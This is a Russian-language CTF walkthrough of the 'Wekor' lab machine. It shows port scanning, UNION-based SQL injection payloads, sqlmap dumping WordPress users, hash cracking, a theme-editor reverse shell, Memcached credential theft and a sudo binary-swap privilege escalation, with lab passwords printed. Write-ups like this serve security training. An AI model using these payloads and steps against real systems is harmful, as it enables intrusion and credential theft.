# Write-up: Wekor

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1500 10.144.147.57
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 9 disallowed entries
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot
|_/comingreallysoon /interesting
```

## Port 80

Открываем сайт:



## robots.txt

Смотрим `robots.txt`:



```text
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```

Пробуем каждый эндпоинт. Где-то в конце `/` не хватает, где-то наоборот — подбираем вручную.

## /comingreallysoon/

Открываем `/comingreallysoon/`:



```text
Welcome Dear Client!
We've setup our latest website on /it-next, Please go check it out!
If you have any comments or suggestions, please tweet them to @faketwitteraccount!
Thanks a lot !
```

Переходим на `/it-next`.

## /it-next


Сайт объёмный, поэтому запускаю `gobuster` и параллельно смотрю трафик в Burp.

Находим корзину с купоном на `/it_cart.php`, которая уязвима к SQL-инъекции:



## SQL-инъекция

Пробуем классический payload:

```sql
' UNION SELECT 1 -- -
```



```text
The used SELECT statements have a different number of columns
```

Прямая подсказка — перебираем количество столбцов, пока не получим совпадение:

```sql
' UNION SELECT 1,2,3 -- -
```



Проверяем, что можем читать таблицы:

```sql
' UNION SELECT table_name,2,3 FROM information_schema.tables -- -
```



Слишком много таблиц — дальше удобнее через `sqlmap`.

## sqlmap

Сохраняем запрос из Burp в `requests.txt`:



Запускаем:

```bash
sqlmap -r requests.txt --dbs
```



Находим базу `wordpress` и дампим `wp_users`:

```bash
sqlmap -r requests.txt -D wordpress -T wp_users --dump
```




## Крек hashes

Крек `phpass`-хэшей через `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass hashes.txt
```



```text
wp_yura:soccer13
```

Заходим в WordPress:

```text
http://site.wekor.thm/wordpress/wp-login.php
```



## RCE через Theme Editor

Мы админ. Идём в `Appearance → Theme File Editor` и заменяем `404.php` на `reverse_shell.php` (взял от pentestmonkey):



Открываем `404.php`, получаем шелл:

```text
http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php
```



## Внутренний сервис

Стабилизируем шелл и смотрим порты:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ss -tulnp
```



Находим порт `11211` — это **Memcached**.



Подключаемся через telnet и вытаскиваем креды:



```text
Orka:OrkAiSC00L24/7$
```

Заходим:

```bash
su Orka
```



## PrivEsc

Проверяем `sudo`:

```bash
sudo -l
```

```text
User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```

Смотрим строки в бинаре:

```bash
strings bitcoin
```



Пароль — `password`:



Подменяем бинарь на `bash`:

```bash
mv Desktop clone
mkdir Desktop
cp /bin/bash ./Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
```

Получаем root и читаем флаг:


## Итоговая схема (Kill Chain)

`robots.txt` → `/comingreallysoon → /it-next` → `it_cart.php (SQLi)` → `sqlmap (wp_users dump)` → `john (wp_yura:soccer13)` → `Theme Editor RCE` → `Memcached (Orka creds)` → `sudo bitcoin (подмена на bash)` → `root`